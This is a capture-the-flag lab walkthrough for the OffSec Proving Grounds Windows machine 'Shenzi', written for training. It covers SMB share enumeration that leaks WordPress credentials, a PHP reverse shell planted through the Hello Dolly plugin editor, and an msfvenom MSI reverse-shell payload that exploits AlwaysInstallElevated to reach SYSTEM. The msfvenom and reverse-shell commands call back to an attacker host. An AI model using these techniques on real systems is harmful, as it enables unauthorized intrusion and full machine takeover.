

# Shenzi — OffSec Proving Grounds Walkthrough

**Platform:** Proving Grounds Practice
**Difficulty:** Intermediate
**OS:** Windows

---

## TL;DR

SMB enumeration reveals a share with `passwords.txt` containing WordPress credentials → Hello Dolly plugin PHP webshell → Reverse shell as standard user → `AlwaysInstallElevated` registry misconfiguration → MSI reverse shell payload for NT AUTHORITY\SYSTEM.

---

## Enumeration

```bash
nmap -sV -p- 192.168.242.55
```

**Open Ports:**
| Port | Service | Version |
|------|---------|---------|
| 21 | FTP | FileZilla ftpd |
| 80,443 | HTTP/S | Apache httpd 2.4.43 (XAMPP / PHP) |
| 135,139,445| SMB/RPC | |
| 3306 | MySQL | (Remote access denied) |

Exploring the SMB service:
```bash
smbclient //192.168.230.55/Shenzi -U ""
```
We connect anonymously and find the following files:
- `passwords.txt`
- `readme_en.txt`
- `xampp-control.ini`

Inside `passwords.txt`, we find credentials for a WordPress site: `admin:FeltHeadwallWight357`.

---

## Exploitation — WordPress Plugin RCE

The share name `Shenzi` gives us a clue. Navigating to `https://192.168.230.55/shenzi/` confirms the WordPress installation.

Logging into the WP Admin panel at `/shenzi/wp-admin/` with the discovered credentials works!

With admin access, we can gain RCE by modifying an active plugin. The classic choice is **Hello Dolly**.
1. Navigate to **Plugins > Plugin Editor**
2. Select **Hello Dolly**
3. Replace the plugin PHP code with a PHP reverse shell
4. Modify the host IP and port in the shell code
5. Activate the plugin / access the plugin endpoint

```php
// Standard PHP daemonized reverse shell logic
$sh = new Shell('192.168.45.242', 6969);
$sh->run();
```

Our listener catches the shell on port 6969.

---

## Privilege Escalation — AlwaysInstallElevated

Running `winPEAS` or checking registry keys manually reveals a deadly misconfiguration:
```cmd
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```


Both `HKLM` and `HKCU` keys have `AlwaysInstallElevated` set to `1`. This means any user can run `.msi` installation files with **SYSTEM** privileges.

1. Generate a malicious MSI payload:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.242 LPORT=443 -f msi -o rshell.msi
```

2. Transfer `rshell.msi` to the Windows machine.

3. Execute the installer:
```cmd
msiexec /quiet /qn /i rshell.msi
```

A new shell pops as **NT AUTHORITY\SYSTEM**. 🎉

---

## Key Takeaways

- **SMB Shares** (even read-only) are goldmines for credentials like `passwords.txt` or `config.php`.
- **WordPress Admin = RCE**: If you have admin privileges on WordPress, you can execute code by modifying plugins or themes.
- **AlwaysInstallElevated** is a classic Windows PE vector. If both HKLM and HKCU are `1`, a simple `msfvenom` MSI payload gives instant SYSTEM.

---

*Thanks for reading! Follow for more OffSec walkthrough content.*
